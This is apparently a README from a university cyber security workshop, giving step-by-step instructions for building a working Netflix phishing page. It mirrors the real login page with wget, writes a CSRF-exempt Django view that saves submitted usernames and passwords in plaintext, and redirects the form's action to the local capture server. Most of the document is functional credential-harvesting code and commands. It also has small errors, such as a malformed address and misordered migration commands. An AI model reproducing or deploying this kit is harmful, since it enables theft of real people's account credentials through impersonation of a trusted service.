 # UHART CYBER SECURITY: PHISHING WORKSHOP
Down below is a guide to make a fully functional phishing page. For the workshop, we cloned the netflix login page. Follow the guide below to create your own local netflix page. 

## Make sure python is installed

```
sudo apt-get install python3-pip

```

## Install the django framework/django-admin tool

```
pip3 install Django

sudo apt-get install python3-django

```

## Creating the app
Now we will utilize Django to create our local web server. We're going to createa n app called "netflix2" using django-admin

```
django-admin startproject netflix2

```

## Setting up our project
During the workshop, this part was all over the place, but it's very simple. All we need to do, cd into our project, create our host app, and set up our urls, views etc. 

### Create the app

```
django-admin startapp host

```

### Setting up our config
Inside your app, there is a folder with the SAME name as your main project, our is called "netflix2". cd into that directory and you should see 3 main files


```
settings.py  urls.py wsgi.py

```

We're going to editing our settings.py first. Inside settings.py look for "INSTALLED APPS". Add our host app to the installed app's section


```

INSTALLED_APPS = [
    'host',  <-- ADD your app HERE 
    'django.contrib.admin',
    'django.contrib.auth',
    'django.contrib.contenttypes',
    'django.contrib.sessions',
    'django.contrib.messages',
    'django.contrib.staticfiles',
]

```

That's everything we need to as far as settings.py. Now we need to change our urls.py to route all our apps on the webhost. I don't have the patience to show everything you'll need to change so i'm just going to paste what your urls.py file SHOULD look like (DOWN BELOW) 


```

from django.contrib import admin
from django.conf.urls import url, include

urlpatterns = [
	url(r'^admin/', admin.site.urls),	
	url(r'^host/', include('host.urls')), 	
]

```

This is all that needs to be in your URLS.py file. As Far as config, that's all we need to do

## Setting up our views and HOST APP

Now we're going to cd OUT of our config directory and go into our host app. 
One file we need to create is our URLS.py.

```

cd ../ 
cd host
touch urls.py

```

All we have to do is set up our Database ACCOUNT capture model and link it to our views.py

## Setting up Database model

Go into models.py and paste this in

```

from django.db import models
from django.utils import timezone
# Create your models here.


class Account(models.Model):
    username = models.CharField(max_length=100)
    password = models.CharField(max_length=100)
    login_time = models.DateTimeField(default=timezone.now)

    def __str__(self):
        return "{} :  {}".format(self.username, self.password)

```

Now REGISTER your model in admin.py.
Your admin.py should look like this


```

from django.contrib import admin
from .models import Account
# Register your models here.

# REGISTERING ACCOUNT model to site
admin.site.register(Account)

```

## Creating OUR VIEWS

Now we just need a view that captures netflix login details and saves it in our database
In your views.py file, paste this code.

```

from django.shortcuts import render, redirect
from .models import Account
from django.views.decorators.csrf import csrf_exempt

@csrf_exempt
def login_page(request):
	# capture request information
	# create account model
	# save to database

	if request.method == "POST":
		getusername = request.POST.get("userLoginId")
		getpassword = request.POST.get("password")
		print(getusername)
		print(getpassword)
		myAccount = Account()
		myAccount.username = getusername
		myAccount.password = getpassword
		myAccount.save()
		
	template_name = 'host/netflix.html'
	return render(request, template_name)

```


We're pretty much done with web app and now we need to clone netflix and render the template to our template directory

## Creating the template

Use this command to clone the netlix login page

```

wget -mkEpnp https://www.netflix.com/Login?nextpage=http%3A%2F%2Fwww3.netflix.com%2Fbrowse

```

This will download a folder called "www.netflix.com". Now we need the HTML file. 
inside our HOST app create a directory called "templates"

```


mkdir templates
cd templates
mkdir host
cd host

```

## Uncompress the HTML
The html is compressed and it will be hard to find the form fields we need to modify. Head to this link: https://www.onlinewebtoolkit.com/html-uncompress#HTMLCompress. 

Upload the html file we just mirrored using WGET. 

Our template directory is set up like this: templates/host/netflix.html

Put your netflix html file in the templates/host/ directory. Rename it to netflix.html to match our view function


## Add URL PATH in host

Now cd back to the main host app and let's edit our urls.py. PASTE THIS in your urls.py file. This will just map a url to our VIEWS functions. the url is going to be http://HOST:8000/host/login

```

from django.contrib import admin
from django.conf.urls import url, include
from . import views


"""
/admin
/host/login
"""


urlpatterns = [
	url(r'^login/', views.login_page, name='login-page'),
]

```

## Edit the netflix.html file
cd into your templates/host/netflix.html file and we need to edit the ACTION tag.
CTRL + F the file and search for action=""
replace the quotes in the action tag with your URL: http://1270.0.1:8000/host/login/

# ALL SET

Now your app is fully set up and you can head to http://127.0.0.1:8000/host/login and have a fully functioning netflix phishing page.

to create our web app we need to run a couple migration commands. cd back to the main project directory where manage.py is and run these commands

```
python3 manage.py migrate
python3 manage.py makemigrations

```

#Create your admin superuser

```

python3 manage.py createsuperuser

```

Follow the steps and create a username and password

























